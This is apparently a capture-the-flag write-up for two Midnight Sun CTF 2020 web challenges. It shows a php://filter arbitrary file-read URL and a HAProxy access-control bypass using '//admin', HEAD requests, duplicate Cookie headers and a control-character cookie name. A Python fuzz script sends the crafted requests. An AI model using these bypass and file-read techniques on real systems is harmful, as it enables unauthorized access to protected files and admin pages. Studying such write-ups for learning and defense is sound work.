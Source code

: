 # Midnight Sun CTF 2020 Quals

**It's recommended to read our responsive [web version](https://balsn.tw/ctf_writeup/20200404-midnightsunctf2020quals/) of this writeup.**


 - [Midnight Sun CTF 2020 Quals](#midnight-sun-ctf-2020-quals)
   - [Web](#web)
     - [hackingforso](#hackingforso)
     - [Shithappens](#shithappens)


## Web

### hackingforso

There is an arbitrary file read vulnerability:

`http://hackingforso-01.play.midnightsunctf.se/?file=php://filter/convert.base64-encode/resource=/var/www/html/index.php`

(we can't use `..` and `/xxxx`, but we can use `php://filter`)


When I read the `/proc/self/map`, I found this:

```
562fa83f6000-562fa8e74000 r-xp 00000000 ca:01 269523                     /usr/local/sbin/php-fpm
562fa9074000-562fa9119000 r--p 00a7e000 ca:01 269523                     /usr/local/sbin/php-fpm
562fa9119000-562fa9125000 rw-p 00b23000 ca:01 269523                     /usr/local/sbin/php-fpm
562fa9125000-562fa9134000 rw-p 00000000 00:00 0
562faa1e0000-562faa3ff000 rw-p 00000000 00:00 0                          [heap]
562faa3ff000-562faa403000 rw-p 00000000 00:00 0                          [heap]
7f999efbd000-7f999f1bd000 r-xp 00000000 ca:01 284231                     /var/www/messages/21db4c2051b8e454d73f7b97664770ef.so
7f999f1bd000-7f999f1be000 r--p 00000000 ca:01 284231                     /var/www/messages/21db4c2051b8e454d73f7b97664770ef.so
7f999f1be000-7f999f1bf000 rw-p 00001000 ca:01 284231                     /var/www/messages/21db4c2051b8e454d73f7b97664770ef.so
7f999f1bf000-7f999f3c0000 r-xp 00000000 ca:01 279464                     /usr/local/lib/libmcrypt/ofb.so
7f999f3c0000-7f999f3c1000 r--p 00001000 ca:01 279464                     /usr/local/lib/libmcrypt/ofb.so
7f999f3c1000-7f999f3c2000 rw-p 00002000 ca:01 279464                     /usr/local/lib/libmcrypt/ofb.so
7f999f3c2000-7f999f5c3000 r-xp 00000000 ca:01 279466                     /usr/local/lib/libmcrypt/rc2.so
7f999f5c3000-7f999f5c4000 r--p 00001000 ca:01 279466                     /usr/local/lib/libmcrypt/rc2.so
...
```

The `21db4c2051b8e454d73f7b97664770ef.so` looks like someone's malicious `so` file.

So I tried to download this `so` file, and use `strings` command:

```
$ strings 21db4c2051b8e454d73f7b97664770ef.so

...
./flag_dispenser > /var/www/messages/hurt_me_plentye124f251ac.txt
...
```

OK, let's try to read the `hurt_me_plentye124f251ac.txt`:

`midnight{i_h@t3_cryPt0_1n_w3b_ch4llz}`

WOW, I got the flag :)

### Shithappens

This is a HAproxy bypass challenge. The key here is to exploit the difference between HAproxy and flask.

```
frontend internet_access
  bind *:80
  errorfile 403 /etc/haproxy/errorfiles/403custom.http
  http-response set-header Server Server
  http-request deny if METH_POST
  http-request deny if { path_beg /admin }
  http-request deny if { cook(IMPERSONATE) -m found }
  http-request deny if { hdr_len(Cookie) gt 69 }
  mode http
  use_backend test

backend test
  balance roundrobin
  mode http
  server flaskapp app:8282 resolvers docker_resolver resolve-prefer ipv4
```

1. `path_beg`: request `/%2fadmin` or simply `//admin`
2. `METH_POST`: Just use `HEAD`
3. `hdr_len(Cookie)`: send multiple `Cookie` headers
4. `cook(IMPERSONATE)`: Insert invalid chracter like `IMPERSONATE\x0b`. The backend `flask` will resolve it as `IMPERSONATE`.

Here is the fuzz script for step 4.

```
#!/usr/bin/env python3
import socket
import string
for i in range(128):
    c = chr(i)
    if c in (string.ascii_letters + string.digits):
        continue
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('shithappens-01.play.midnightsunctf.se', 80))
    s.send((f'''
GET //admin HTTP/1.1                                                                                                                     
Cookie: KEY=0be40039bcd8286eab237f481641b16e5e3ab442e0bc1135f08c143b22dc1efc;
cooKie: ;IMPERSONATE{c}=admin
Connection: close
''' + '\n').lstrip().replace('\n', '\r\n').encode())
    print(repr(c), s.recv(65536).decode())
    s.close()
```

For the the reason why flask resolves it as `IMPERSONATE`, see [this post](https://www.cnblogs.com/20175211lyz/p/12637624.html) (in Chinese), or check the flask source code.

In this challenge, there is also a debug interface `/debug` which can be useful for debugging the cookies.


